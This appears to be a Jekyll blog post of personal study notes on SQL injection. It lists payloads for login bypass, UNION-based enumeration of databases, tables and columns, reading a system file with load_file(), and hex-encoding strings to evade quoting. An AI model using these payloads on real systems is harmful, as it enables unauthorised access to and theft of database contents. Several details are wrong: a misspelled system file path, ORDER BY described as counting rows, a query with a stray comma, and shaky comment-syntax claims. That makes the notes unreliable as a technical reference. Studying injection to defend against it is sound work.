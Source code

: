 ```yaml
---
layout: post
title: 'Notes | SQLi'
date: 2021-12-12
permalink: /notes/databases/sqli/
---
```

# [](#header-4)Basic access

If we can send a query to the database to log, we can do:
{% highlight plain %}
' or '1'='1' --
{% endhighlight %}

With this we replace the original input (') and make a statement, do the query or check if 1=1.
Then we add a comment line, there are different comment for each program:
- Oracle: --
- MySQL: #
- MariaDB: /* */


Also we can change the *or* part with the **UNION** syntax.
{% highlight plain %}
' union select ...
{% endhighlight %}

Now we can execute any code we want in the db.
We can check all the tables with this:
{% highlight plain %}
' union select null, 'test', from dual --
{% endhighlight %}
We need to use the same number of field from the tables, so we just need to keep trying adding new fields.

# [](#header-4)Error Based
When we see an SQL error in the page we can try to gather information of the web.
Adding and:
{% highlight plain %}
... ORDER BY 5; --
{% endhighlight %}
We can check how many rows are in the query.
##### (We can change **--** to others SQL comments.)

Then we can do an union with the columns:
{% highlight plain %}
... UNION SELECT 1,2,3,4,5;
... UNION SELECT NULL,NULL,NULL,NULL,NULL;
{% endhighlight %}

We can use to enumerate the following functions, replacing the numbers or NULL:
- database()
- user()
- load_file('/etc/password')

Now we can get the tables from the database:
{% highlight plain %}
... UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema = "database-name";
{% endhighlight %}

Or the others databases:
{% highlight plain %}
... UNION SELECT schema_name,NULL FROM information_schema.schemata;
{% endhighlight %}
Some databases can limit the amount on databases show, we can try to change it with limit:
{% highlight plain %}
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 1,1; -- This will show the first one
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 2,1; -- This will show the second one
{% endhighlight %}

To get the columns of a table:
{% highlight plain %}
... UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = "database-name" AND table_name = "table-name";
{% endhighlight %}

If we can not pass a string like **"database-name"** we can encode it:
{% highlight plain %}
> echo "database-name" | xxd -ps
{% endhighlight %}
##### (We may remove the **0a**, and add a **0x** at the beggining.)
